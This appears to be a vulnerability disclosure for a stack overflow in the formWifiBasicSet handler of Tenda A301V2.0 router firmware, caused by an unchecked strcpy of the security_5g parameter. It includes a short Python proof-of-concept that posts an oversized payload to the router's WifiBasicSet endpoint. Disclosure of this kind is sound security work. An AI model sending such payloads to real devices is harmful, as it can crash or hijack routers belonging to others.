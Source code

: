 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3328.html

## Affected version

A301V2.0 Firmware V15.13.08.12

## Vulnerability details

In the Tenda A301V2.0 Firmware V15.13.08.12 has a stack overflow vulnerability in the `formWifiBasicSet` function. The `src` variable receives the `security_5g` parameter from a POST request and is later assigned to the `dest` variable, which is fixed at 256 bytes. However, since the user can control the input of `security_5g`, the statement `strcpy(dest, src);` can cause a buffer overflow. The user-provided `security_5g` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![image-20240304212400706](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304212400706.png)

![image-20240304211549237](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304211549237.png)

![image-20240304211639911](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304211639911.png)

## PoC

```python
import requests


url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {
    'security_5g':payload, 
    'hideSsid':'1', 
    'ssid':'1',
    'security':'1', 
    'wrlPwd':'1', 
    'hideSsid_5g':'1', 
    'ssid_5g':'1', 
    'wrlPwd_5g': '1'
}

requests.post(url, data=data)
```

![image-20240304213056127](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304213056127.png)